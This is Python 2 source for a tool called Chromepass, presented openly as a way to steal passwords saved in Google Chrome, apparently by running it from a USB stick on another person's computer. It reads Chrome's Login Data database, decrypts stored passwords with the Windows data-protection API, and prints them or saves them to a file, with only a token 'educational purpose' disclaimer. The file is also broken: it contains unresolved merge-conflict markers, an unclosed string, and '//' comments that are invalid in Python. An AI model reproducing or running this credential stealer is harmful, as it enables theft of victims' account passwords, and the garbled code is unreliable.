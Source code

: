 # Chromepass
//Steal password stored in chrome browser
//Use pendrive properly 
//Only for educational purpose
//Do not use for illegal purpose
//Do  share
import sqlite3, win32crypt, os, sys

def decrypt(path, save_path):
	if not os.path.isfile(path):
		print 'The file doesn\'t exist!'
		return
	
	connChrome = sqlite3.connect(path)
	cursor = connChrome.cursor()
	try:
		cursor.execute('SELECT action_url, username_value, password_value FROM logins')
	except:
		print 'Impossible to read ' + path
		return

	print '\t\t\t*** Passwords ***'
	
	for query in cursor.fetchall():
		passwd = win32crypt.CryptUnprotectData(query[2], None, None, None, 0)[1]
		if passwd:
			print 'URL: ' + query[0]
			print 'User: ' + query[1]
			print 'Password: ' + passwd
			print '--------------------'
	
			if save_path != '':
				passwordsFile = open(save_path, 'a')
				passwordsFile.writelines('URL: ' + query[0] + '\nUser: ' + query[1] + '\nPassword: ' + passwd + '\n--------------------\n')
				passwordsFile.close()

def show_help():
    print '''  Usage:
    python ChromePass.py                                   # Run with the default location of the Login Data file.
    python ChromePass.py "path_to_file"                    # Run with a path to the Login Data file.
    python ChromePass.py "path_to_file" -S "path_to_save"  # Run with a path to the Login Data file and save.
    python ChromePass.py -S "path_to_save"                 # Save the content of the default Login Data file.

<<<<<<< HEAD
 
=======

>>>>>>> 828286503238c3fd4a8a3b1bbae5ce8570f7f331
if __name__ == '__main__':
    arg = sys.argv
    args = len(arg)
    login_data = os.getenv('LOCALAPPDATA') + '\Google\Chrome\User Data\Default\Login Data'

    if args == 1:
        decrypt(login_data, '')
    elif args == 2:
        decrypt(arg[1], '')
    elif args == 3:
        if arg[1].upper() == '-S':
            decrypt(login_data, arg[2])
        else:
            show_help()
    elif args == 4:
        if arg[2].upper() == '-S':
            decrypt(arg[1], arg[3])
        else:
            show_help()
    else:
        show_help()

